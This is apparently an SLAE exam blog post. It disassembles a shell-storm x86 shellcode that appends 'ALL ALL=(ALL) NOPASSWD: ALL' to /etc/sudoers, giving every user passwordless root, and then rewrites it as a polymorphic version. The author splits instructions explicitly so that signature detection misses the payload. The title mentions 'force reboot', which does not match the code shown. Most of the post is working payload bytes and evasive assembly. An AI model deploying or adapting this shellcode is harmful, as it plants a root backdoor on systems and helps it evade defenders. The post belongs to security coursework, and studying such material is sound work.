 ```yaml
---
layout: post
title: SLAE 6.3 - Shell-Storm Polymorphism - force reboot
date:   2019-03-06
categories: [SLAE, Assembly]
---
```

The 3rd shellcode we will try to make a polymorphic version of will be:
[http://shell-storm.org/shellcode/files/shellcode-62.php](http://shell-storm.org/shellcode/files/shellcode-62.php)

The length is 86 bytes.  To fit the requirements for the exam, we have to make a version no greater than 150% of the original, giving us a maximum of 129 bytes.

Let's check the shellcode and what it does:
```nasm
echo -ne "\x31\xc0\x50\x68\x6f\x65\x72\x73\x68\x2f\x73\x75\x64\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xb0\x05\xcd\x80\x89\xc3\x31\xc0\x50\x68\x41\x4c\x4c\x0a\x68\x57\x44\x3a\x20\x68\x50\x41\x53\x53\x68\x29\x20\x4e\x4f\x68\x28\x41\x4c\x4c\x68\x41\x4c\x4c\x3d\x68\x41\x4c\x4c\x20\x89\xe1\xb2\x1c\xb0\x04\xcd\x80\xb0\x06\xcd\x80\x31\xdb\xb0\x01\xcd\x80" | ndisasm -u -
00000000  31C0              xor eax,eax
00000002  50                push eax
00000003  686F657273        push dword 0x7372656f
00000008  682F737564        push dword 0x6475732f
0000000D  682F657463        push dword 0x6374652f     ; /etc/sudoers
00000012  89E3              mov ebx,esp
00000014  66B90104          mov cx,0x401
00000018  B005              mov al,0x5
0000001A  CD80              int 0x80                  ; call open
0000001C  89C3              mov ebx,eax
0000001E  31C0              xor eax,eax
00000020  50                push eax
00000021  68414C4C0A        push dword 0xa4c4c41
00000026  6857443A20        push dword 0x203a4457
0000002B  6850415353        push dword 0x53534150
00000030  6829204E4F        push dword 0x4f4e2029
00000035  6828414C4C        push dword 0x4c4c4128
0000003A  68414C4C3D        push dword 0x3d4c4c41
0000003F  68414C4C20        push dword 0x204c4c41       ; ALL ALL=(ALL) NOPASSWD: ALL\n
00000044  89E1              mov ecx,esp
00000046  B21C              mov dl,0x1c
00000048  B004              mov al,0x4
0000004A  CD80              int 0x80                     ; call write
0000004C  B006              mov al,0x6
0000004E  CD80              int 0x80                     ; call close
00000050  31DB              xor ebx,ebx
00000052  B001              mov al,0x1
00000054  CD80              int 0x80                      ; call exit
```
So we have push "/etc/sudoers", call open

Push "ALL ALL=(ALL) NOPASSWD: ALL\n", call write

call close, call exit.  Looks good!  Let's start our attempt at a polymorphic version.

So let's zero out EAX and push it to the stack.  I am going to subtract EAX from itself to get 0, I will update the stack pointer myself then place the value at the new ESP location.  This creates some variation on how we are pushing a value to the stack.  Remember, the stack grows towards 0 so we subtract 4 from esp in order to make room for the value we want to put on the stack.
```nasm
sub eax, eax
sub esp, 4
mov [esp], eax
```
Next we will push "/etc/sudoers" to the stack and update ebx to the stack pointer.  I have decided to split up the pushes if any signatures match on the dword pushes for sudoers.  I left the /etc as a dword to mix up the combinations of pushes since /etc does not necessarily mean we are up to no good.
```nasm
push word 0x7372
push word 0x656f
push word 0x6475
push word 0x732f
push dword 0x6374652f
sub ebx, ebx
add ebx, esp
```
Setting up ECX and EAX:

EAX is already 0, so we can and ECX with EAX in order to zero out ECX.  We then add the argument value we need to CX mixing it up since the original used mov instructions.  We then use add to AL for the syscall value since EAX is already zero'd out and make the syscall.
```nasm
and ecx, eax
add cx, 0x401
add al, 0x5
int 0x80
```
Next, we move the return value into EBX.  The original uses a mov instruction so we can just replace that with xchg. 

zero out EAX by subtracting it from itself, then push the null value using our manual stack manipulation. 

Then we will push the string to the stack.  This time we have just split the word PASS into two word pushes vs 1 dword push.

Then ESP's value is moved into ECX.  The variation that I will use is to subtract ECX from itself to make it zero, then add esp to it so that ECX = ESP.
```nasm
xchg ebx, eax
sub eax, eax
sub esp, 4
mov [esp], eax
push dword 0xa4c4c41
push dword 0x203a4457
push word 0x5353
push word 0x4150
push dword 0x4f4e2029
push dword 0x4c4c4128
push dword 0x3d4c4c41
push dword 0x204c4c41
sub ecx, ecx
add ecx, esp
```
Next we need to set up the rest of the args, EDX and EAX. Once those args are prepared, it will be time to make the syscall.

My EDX was not zero'd out here and would not work without adding an instruction to make sure edx = 0x1c. So I used XOR to make EDX zero, then moved the proper argument value into DL.  EAX is still zero from previous instructions at this point, so I just add 0x4 to get our syscall value.
```nasm
xor edx, edx
mov dl, 0x1c
add al, 0x4
int 0x80
```
Then we need to update AL for the call to 'close'.
```nasm
mov al, 0x6
int 0x80
```
For the last call, we need to zero out EBX and make EAX = 1.
```nasm
mov al, 0x1
sub ebx, ebx
int 0x80
```
Here is the final outcome:
```nasm
xor eax,eax                             sub eax, eax
push eax                                sub esp, 0x4
                                        mov [esp], eax
push dword 0x7372656f                   push word 0x7372
                                        push word 0x656f
push dword 0x6475732f                   push word 0x6475
                                        push word 0x732f
push dword 0x6374652f                   push dword 0x6374652f   
mov ebx,esp                             sub ebx, ebx
                                        add ebx, esp
mov cx,0x401                            and ecx, eax
                                        add cx ,0x401
mov al,0x5                              add al, 0x5
int 0x80                                int 0x80                
mov ebx,eax                             xchg ebx, eax
xor eax,eax                             sub eax, eax
push eax                                sub esp, 0x4
                                        mov [esp], eax
push dword 0xa4c4c41                    push dword 0xa4c4c41
push dword 0x203a4457                   push dword 0x203a4457
push dword 0x53534150                   push word 0x5353
                                        push word 0x4150
push dword 0x4f4e2029                   push dword 0x4f4e2029
push dword 0x4c4c4128                   push dword 0x4c4c4128
push dword 0x3d4c4c41                   push dword 0x3d4c4c41
push dword 0x204c4c41                   push dword 0x204c4c41
mov ecx,esp                             sub ecx, ecx
                                        add ecx, esp
mov dl,0x1c                             xor edx, edx
                                        mov dl, 0x1c
mov al,0x4                              add al, 0x4
int 0x80                                int 0x80
mov al,0x6                              mov al, 0x6
int 0x80                                int 0x80
xor ebx,ebx                             mov al, 0x1
mov al,0x1                              sub ebx, ebx
int 0x80                                int 0x80
```
Our total length of the new shellcode is 113 bytes and runs successfully.
